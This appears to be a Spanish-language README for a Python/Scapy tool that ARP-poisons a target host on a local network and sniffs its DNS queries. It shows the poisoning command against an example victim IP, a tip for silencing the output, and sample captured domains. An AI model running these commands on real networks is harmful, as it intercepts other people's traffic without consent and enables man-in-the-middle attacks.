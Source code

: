 # ARP Spoof 
Intercepta paquetes en la red local & Sniffer DNS.

## Modo de uso:

### Arp Spoof

 `./arp_spoof.py -h`

    usage: arp_spoof.py [-h] -t IP_ADDRESS

    ARP Spoofer using Scapy

    options:

      -h, --help
            show this help message and exit

      -t IP_ADDRESS, --target IP_ADDRESS
            Specify a particular Host/IP to ARP poison.

Victima IP ejemplo: 192.168.1.2

`sudo ./arp_spoof.py -t 192.168.1.2`

    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.

**[!] Nota:** Si no desea ver el output del Script ejecutarlo de la siguiente manera.

`sudo ./arp_spoof.py -t 192.168.1.2 &>/dev/null`

### DNS Sniffer

`sudo ./dns_sniffer`

    [+] Dominio www.paypal.com.
    [+] Dominio m.facebook.com.
    [+] Dominio dev-example.domain-internacional.net.


## Instalación:

**Linux**

`python3  pip install -r requeriments.txt`

